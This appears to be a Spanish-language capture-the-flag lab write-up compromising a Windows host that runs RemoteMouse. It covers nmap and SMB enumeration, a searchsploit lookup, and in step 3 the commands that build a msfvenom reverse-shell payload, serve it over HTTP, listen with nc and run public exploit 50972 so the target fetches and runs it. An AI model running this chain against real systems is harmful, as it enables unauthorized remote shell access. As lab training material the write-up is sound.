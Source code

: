 # Walk: Public Exploit 01

## Fecha: 08/02/2025
## Host: Windows
## IP: 192.168.xxx.10
## Objetivo
Encontrar la vulnerabilidad y ejecutar el exploit correspondiente.
## Herramientas
1. smbclient
2. impacket
3. searchsploit
## Procedimiento y comandos
#### Paso 1:  Enumeracion con nmap
1. `nmap -sV -p- --script=banner,default 192.168.195.10 --min-rate 5000 -oN nmap-result.txt`
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-08 09:00 -03
Nmap scan report for 192.168.195.10
Host is up (0.19s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 10 Pro 15063 microsoft-ds (workgroup: WORKGROUP)
1978/tcp  open  unisql?
|_banner: system windows 6.2\x0AluminateOK
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     system windows 6.2
|_    luminateOK
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49672/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1978-TCP:V=7.95%I=7%D=2/8%Time=67A7478E%P=x86_64-pc-linux-gnu%r(NUL
SF:L,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(GenericLines,1E,"syst
SF:em\x20windows\x206\.2\nluminateOK\n")%r(GetRequest,1E,"system\x20window
SF:s\x206\.2\nluminateOK\n")%r(HTTPOptions,1E,"system\x20windows\x206\.2\n
SF:luminateOK\n")%r(RTSPRequest,1E,"system\x20windows\x206\.2\nluminateOK\
SF:n")%r(RPCCheck,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(DNSVersi
SF:onBindReqTCP,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(DNSStatusR
SF:equestTCP,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(Help,1E,"syst
SF:em\x20windows\x206\.2\nluminateOK\n")%r(SSLSessionReq,1E,"system\x20win
SF:dows\x206\.2\nluminateOK\n")%r(TerminalServerCookie,1E,"system\x20windo
SF:ws\x206\.2\nluminateOK\n")%r(TLSSessionReq,1E,"system\x20windows\x206\.
SF:2\nluminateOK\n")%r(Kerberos,1E,"system\x20windows\x206\.2\nluminateOK\
SF:n")%r(SMBProgNeg,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(X11Pro
SF:be,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(FourOhFourRequest,1E
SF:,"system\x20windows\x206\.2\nluminateOK\n")%r(LPDString,1E,"system\x20w
SF:indows\x206\.2\nluminateOK\n")%r(LDAPSearchReq,1E,"system\x20windows\x2
SF:06\.2\nluminateOK\n")%r(LDAPBindReq,1E,"system\x20windows\x206\.2\nlumi
SF:nateOK\n")%r(SIPOptions,1E,"system\x20windows\x206\.2\nluminateOK\n")%r
SF:(LANDesk-RC,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(TerminalSer
SF:ver,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(NCP,1E,"system\x20w
SF:indows\x206\.2\nluminateOK\n")%r(NotesRPC,1E,"system\x20windows\x206\.2
SF:\nluminateOK\n")%r(JavaRMI,1E,"system\x20windows\x206\.2\nluminateOK\n"
SF:)%r(WMSRequest,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(oracle-t
SF:ns,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(ms-sql-s,1E,"system\
SF:x20windows\x206\.2\nluminateOK\n")%r(afp,1E,"system\x20windows\x206\.2\
SF:nluminateOK\n")%r(giop,1E,"system\x20windows\x206\.2\nluminateOK\n");
Service Info: Host: REMOTEMOUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Pro 15063 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: remotemouse
|   NetBIOS computer name: REMOTEMOUSE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-02-08T04:03:56-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2h40m00s, deviation: 4h37m09s, median: 0s
| smb2-time: 
|   date: 2025-02-08T12:03:57
|_  start_date: 2024-03-28T14:52:40

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 195.65 second
```
Encontramos un puerto abierto que es algo inusual y el nombre del host que nos da un indicio de busqueda.

- open port **1978**.
- Host: **REMOTEMOUSE**; OS: Windows;
#### Paso 2:  Exploracion con smbclient
1. Intentamos listar recursos compartidos por **SMB**
- `smbclient -L //192.168.195.10/ -N`
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
offsec          Disk      
Users           Disk 
```
2.  Berificamos si tenemos acceso al recurso compartido sin credenciales:
- `smbclient //192.168.195.10/offsec -N ` 
> Y en efecto accedemos al recurso y podemos listar contenido
3. Buscando encontramos **_\Downloads\MouseServer.exe_** lo cual sumado con el nombre de host y el puerto nos da indicio para explorar un vector de ataque por medio de **RemoteMouse**.
4. Exploramos con **searchsploit** la db de exploits:
```
searchsploit remote mouse                                
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Hosting Controller 0.6.1 - User Registration (1)                                                                                                                                | windows/remote/979.txt
Hosting Controller 0.6.1 Hotfix 1.4 - Directory Browsing                                                                                                                        | windows/remote/675.txt
Hosting Controller 1.x/6.1 - Multiple Information Disclosure Vulnerabilities                                                                                                    | windows/remote/25194.txt
Micorosft Internet Explorer - SetMouseCapture Use-After-Free (Metasploit)                                                                                                       | windows/remote/28682.rb
Microsoft Internet Explorer 5.0.1 - Mouse Event URI Status Bar Obfuscation                                                                                                      | windows/remote/25095.txt
Microsoft Internet Explorer 5.0.1 - Popup.show Mouse Event Hijacking                                                                                                            | windows/remote/24266.txt
Microsoft Internet Explorer 6 < 10 - Mouse Tracking                                                                                                                             | windows/remote/23321.txt
Mini Mouse 9.2.0 - Remote Code Execution                                                                                                                                        | windows/webapps/49743.py
Mobile Mouse 3.6.0.4 - Remote Code Execution (RCE)                                                                                                                              | windows/remote/51010.py
Mozilla Browser 1.5 - URI MouseOver Obfuscation                                                                                                                                 | multiple/remote/23433.txt
Remote Mouse 4.002 - Unquoted Service Path                                                                                                                                      | windows/local/50258.txt
Remote Mouse GUI 3.008 - Local Privilege Escalation                                                                                                                             | windows/local/50047.txt
RemoteMouse 3.008 - Arbitrary Remote Command Execution                                                                                                                          | windows/remote/46697.py
TOTOLINK Routers - Backdoor / Remote Code Execution                                                                                                                             | hardware/webapps/37770.txt
uzbl 'uzbl-core' - '@SELECTED_URI' Mouse Button Bindings Command Injection                                                                                                      | linux/remote/34426.txt
WiFi Mouse 1.7.8.5 - Remote Code Execution                                                                                                                                      | windows/remote/49601.py
WiFi Mouse 1.7.8.5 - Remote Code Execution(v2)                                                                                                                                  | windows/remote/50972.py
WiFi Mouse 1.8.3.2 - Remote Code Execution (RCE)                                                                                                                                | windows/remote/51072.py
WiFiMouse 1.8.3.4 - Remote Code Execution (RCE)                                                                                                                                 | windows/remote/51016.sh
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
- Dadas las caracteristicas de la informacion obtenida seleccionamos el exploit que mejor se adapta con esta informacion:
> WiFi Mouse 1.7.8.5 - Remote Code Execution(v2)                                                                                                                               | windows/remote/50972.py


#### Paso 3: Exploramos el exploit 50972 e intentamos implementarlo
1. Copiamos el exploit en el directorio de trabajo
- `searchsploit -m 50972`
2. Inspeccionamos un poco el codigo para entenderlo mejor y verificar sus requerimientos:
- `searchsploit -x windows/remote/50972.py`
3. Explorando el exploit vemos que requiere tres parametros: `<ip_victima><ip_atacante><reverse.exe>`

4. Generamos un payload com `msfvenom`:
- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.189 LPORT=4444 -f exe -o reverse.exe`
5. Servimos el reverse.exe con python:
- `python3 -m http.server 80`
6. Activamos el receptor nc:
- `nc -lnvp 4444`
7. Ejecutamos el exploit:
- ` python3 50972.py 192.168.195.10 192.168.45.189:80 reverse.exe`

#### Paso 4: Obtenemos el flag.txt
1. Al ejecutar el exploit obtenemos en nuestro receptor nc un reverse shell.
2. Navegamos hasta Desktop del usuario offsec y obtenemos el flag:
`type flag.txt`
